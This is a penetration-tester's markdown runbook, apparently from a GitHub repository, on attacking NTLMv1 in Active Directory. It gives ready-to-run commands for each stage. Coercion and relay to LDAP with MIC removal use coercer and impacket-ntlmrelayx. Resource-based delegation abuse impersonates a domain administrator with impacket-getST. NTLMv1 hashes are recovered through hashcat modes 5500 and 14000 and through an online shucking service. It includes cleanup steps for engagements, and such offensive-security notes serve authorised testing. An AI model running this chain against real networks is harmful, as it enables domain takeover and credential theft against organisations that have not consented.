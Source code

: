 # NTLMv1

## Relaying NTLMv1

### LDAP

Its not possible to relay SMB connections to LDAP(S) unless the Message Integrity Code (MIC) is removed. As NTLMv1 does not support the MIC it is therefor possible to relay NTLMv1 coerced from SMB to LDAP(S)

___

### Requirements

- At least two Domain Controllers in the target Domain
- One domain controller configured with a LanMan Compatability setting at or less than '2' (Coerce Target)
- Target Domain Controller is not Windows Server 2025 (Default LDAP Signing and Binding)

#### LDAP Signing and Channel Binding
- LDAP Signing is enforced: Relay -> ```ldaps://```
- LDAP Signing is not enforced but channel binding is: Relay -> ```ldap://``` (Impacket uses StartTLS)
- **Note**: NTLMv1 does not support channel binding

#### Optional Requirements (Depends on attack chain)

#### MAQ -> RBCD -> Domain Administrator

- MAQ Greater than 0
- Account to impersonate not in "Protected Users" or "Sensitive and cant be delegated"

#### Owned Computer -> RBCD -> Domain Administrator

- Credential material for owned machine account
- Account to impersonate not in "Protected Users" or "Sensitive and cant be delegated"

___
#### Attack Chain

> Coerce
```bash
coercer coerce -u "USERNAME" -p "PASSWORD" -d "DOMAIN" -t "TARGET" -l "LISTENER"
```
> Relay
```python
# if MAQ -gt 0
impacket-ntlmrelayx -t ldap://TARGET --remove-mic -smb2support --delegate-access --no-dump --no-da --no-acl

# if using Owned Computer
impacket-ntlmrelayx -t ldap://TARGET --remove-mic -smb2support --delegate-access --escalate-user "MACHINE$" --delegate-access --no-dump --no-da --no-acl
```
> RBCD
```bash
impacket-getST DOMAIN/'MACHINE$':'PASSWORD' -impersonate "ADMIN" -spn "SERVICE/TARGET FQDN" -dc-ip "DC IP"
```
> Authentication
```bash
nxc smb "TARGET" --use-kcache 
```
___
#### Cleanup

- The system we coerce from has the ```msDs-AllowedToActOnBehalfOfOtherIdentity``` attribute modified to the created machine account. Ensure this is removed on engagements.
- Ensure the created machine account is removed at the end of the engagement.

```powershell
# Run in elevated PowerShell

# Clear msDS-AllowedToActOnBehalfOfOtherIdentity attribute
Get-ADComputer -Identity "DC01$" | ForEach-Object { Set-ADObject -Identity $_.DistinguishedName -Clear "msDS-AllowedToActOnBehalfOfOtherIdentity" }

# Remove Created Computer Account (If used MAQ method)
Remove-ADComputer -Identity "WSW01$"
```

## Recovering NTLMv1 Credentials

### Password Cracking
Two available recovery methods for password cracking
- Standard cracking (Wordlist / ruleset)
- Downgrade to 3DES keys and exhaust key space

#### Standard Cracking (Hashcat Mode 5500)
```
hashcat.exe -m 5500 -a 0 -O 5500.txt weakpass_4.txt -r rules\best64.rule
```
#### Downgrade to 3DES keys (Hashcat Mode 14000)
> Setup
```
python3 -m venv venv 
pip3 install pycryptodome
wget https://raw.githubusercontent.com/hashcat/hashcat-utils/refs/heads/master/src/ntlmv1.py
```
> Downgrade
```
# Downgrade
python3 ntlmv1.py --ntlmv1 Moe::SEVENKINGDOMS:535549550D915... --hashcat

# Echo contents to file
echo "535549550D915078:1122334455667788" >> 14000.hash
echo "B4F2F4334C1992E0:1122334455667788" >> 14000.hash
```
> Crack
```
# Full DES Key Space
hashcat.exe -m 14000 -a 3 -1 charsets/DES_full.hcchr --hex-charset 14000.hash ?1?1?1?1?1?1?1?1
```
### Password Shucking
If the plaintext equivalent of the NTLMv1 password is known in online lookup databases, password shucking can be performed to recover the plaintext.

- Only feasible for user account passwords

URL: https://shuck.sh/get-shucking.php

```
[+]  INPUT TOKEN                                    NT-HASH (PTH-READY)

Moe::SEVENKINGDOMS:535549550D915078B4F2...              Password123
```